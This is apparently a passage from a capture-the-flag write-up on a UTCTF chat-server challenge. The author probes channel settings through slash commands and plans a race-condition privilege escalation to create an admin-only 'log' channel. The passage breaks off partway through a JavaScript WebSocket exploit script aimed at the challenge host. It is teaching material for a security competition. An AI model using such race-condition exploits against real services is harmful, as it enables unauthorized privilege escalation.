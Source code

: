 Can we update the owner of `general`?
```
Cannot change properties of an immutable channel
```

And trying to change it with `/set channel.immutable`:
```
Only the channel owner or an admin can change the immutability of a channel
```

Ok, seems like mostly a dead end... Let's check out `mode`!
```
Invalid channel mode. Valid modes: 'normal', 'log'
```

Interesting, we can make a `log` channel!

Trying with `/set channel.mode log` we get:
```
Log channels must be hidden and admin-only.
```

Ok... Now this could be interesting! Let's start by making it hidden with `/set channel.hidden`:
```
provided string was not `true` or `false`
```

Try again with `/set channel.hidden true`...
```
Updated property 'channel.hidden'
```

We now no longer appear in the sidebar! Now I try to `/set channel.admin-only true`:
```
Updated property 'channel.admin-only'
Connection closed.
```

Wait, so can we `/join` our channel back?
```
Channel 'testchannel' is admin-only.
```

Interesting...

### Race Condition

Could we privilege escalate with a race condition to make a log channel? If we could:
1. Create a channel with `/create <channel>`
2. Make it hidden with `/set channel.hidden true`
3. Try and race condition with:
    - `/set channel.admin-only true`
    - `/set channel.mode log`
    - `/set channel.admin-only false`
    - At the same time?
4. Profit?

```js
(async () => {
  // Create a single WebSocket connection
  const socket = new WebSocket('ws://challenge.utctf.live:5213/socket');
  
  // Generate a unique channel name
  const channelName = 'exploit_' + Math.random().toString(36).substring(2, 10);
  
  // Setup message handler to see responses
  socket.onmessage = (event) => {
    console.log('Response:', event.data);
  };
  
  socket.onerror = (error) => {
    console.error('WebSocket Error:', error);
```
